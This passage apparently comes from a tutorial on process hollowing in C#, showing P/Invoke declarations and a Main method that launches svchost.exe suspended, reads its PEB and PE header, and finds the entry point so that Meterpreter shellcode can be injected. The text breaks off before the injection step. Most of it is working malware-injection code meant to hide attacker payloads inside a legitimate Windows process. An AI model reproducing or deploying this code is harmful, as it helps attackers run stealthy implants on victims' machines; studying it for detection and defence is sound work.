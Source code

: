 ```csharp
        [DllImport("kernel32.dll", SetLastError = true)] //We must import WriteProcessMemory got this from pinvoke.net
        public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
        [DllImport("kernel32.dll", SetLastError = true)] //Import ResumeThread bc a already exists
        private static extern uint ResumeThread(IntPtr hThread); //Easy API bc it only has 1 parameter, which is the handle of the thread 
```

Now, to flesh out the Main method, this is where the svchost.exe process will be started in a suspended state, have a portion of its memory hollowed out, and the Meterpreter shellcode will be injected before it resumes execution:

```csharp
        static void Main(string[] args)
        {
            STARTUPINFO si = new STARTUPINFO(); //Instantiate a STARTUPINFO and PROCESS_INFORMATION object
            PROCESS_INFORMATION pi = new PROCESS_INFORMATION();
            bool res = CreateProcess(null, "C:\Windows\System32\svchost.exe", IntPtr.Zero, //We then supply our instantiated objects to CreateProcess
                IntPtr.Zero, false, 0x4, IntPtr.Zero, null, ref si, out pi);
            PROCESS_BASIC_INFORMATION bi = new PROCESS_BASIC_INFORMATION(); //We can now call ZwQueryInformationProcess and fetch the address of the PEB from the PROCESS_BASIC_INFORMATION structure
            uint tmp = 0;
            IntPtr hProcess = pi.hProcess;
            ZwQueryInformationProcess(hProcess, 0, ref bi, (uint)(IntPtr.Size * 6), ref tmp);
            IntPtr ptrToImageBase = (IntPtr)((Int64)bi.PebAddress + 0x10); //ptrToImageBase var now contains a ptr to the img base of svchost.exe in the suspended process
            byte[] addrBuf = new byte[IntPtr.Size]; //Following the DllImport, we can call ReadProcessMemory by specifying an 8-byte buffer that is then converted to a 64bit integer through the BitConverter.ToInt648 method and then casted to a pointer using (IntPtr).
            IntPtr nRead = IntPtr.Zero;
            ReadProcessMemory(hProcess, ptrToImageBase, addrBuf, addrBuf.Length, out nRead);
            //It is worth noting that a memory address takes up eight bytes in a 64-bit process, while it only uses four bytes in a 32-bit process, so the use of variable types, offsets, and amount of data read must be adapted.
            IntPtr svchostBase = (IntPtr)(BitConverter.ToInt64(addrBuf, 0));
            //The following step is to parse the PE header to locate the EntryPoint. This is performed by calling ReadProcessMemory again with a buffer size of 0x200 bytes 
            byte[] data = new byte[0x200];
            ReadProcessMemory(hProcess, svchostBase, data, data.Length, out nRead);
            //To parse the PE header, we must read the content at offset 0x3C and use that as a second offset when added to 0x28
            uint e_lfanew_offset = BitConverter.ToUInt32(data, 0x3C);
            uint opthdr = e_lfanew_offset + 0x28;
            uint entrypoint_rva = BitConverter.ToUInt32(data, (int)opthdr);
            //The offset from the base address of svchost.exe to the EntryPoint is also called the relative virtual address (RVA). We must add it to the image base to obtain the full memory address of the EntryPoint.
            IntPtr addressOfEntryPoint = (IntPtr)(entrypoint_rva + (UInt64)svchostBase);
```